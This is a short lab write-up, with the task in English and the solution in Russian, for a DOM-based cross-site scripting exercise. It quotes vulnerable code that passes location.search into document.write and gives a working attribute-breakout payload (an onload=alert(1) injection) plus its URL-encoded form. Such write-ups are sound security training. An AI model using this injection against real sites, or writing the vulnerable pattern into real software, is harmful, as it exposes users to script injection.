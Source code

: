 # DOM XSS in document.write sink using source location.search
APPRENTICE

This lab contains a DOM-based cross-site scripting vulnerability in the search query tracking functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search, which you can control using the website URL.

To solve this lab, perform a cross-site scripting attack that calls the alert function.

## Решение
В исходниках страницы обнаружен следующий код:
```
function trackSearch(query) {
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    trackSearch(query);
}
```
Чтобы выйти из контекста значения тэга src добавлю двойную кавычку, а затем добавлю атрибут onload со значением `alert(1)`. Для красоты, чтобы HTML был корректен, добавлю новый атрибут, но не буду закрывать двойную кавычку его строкового значения: `test" onload=alert(1) x-catpants="123`

`/?search=test"+onload%3Dalert%281%29+x-catpants%3D"123`

Задание выполнено.
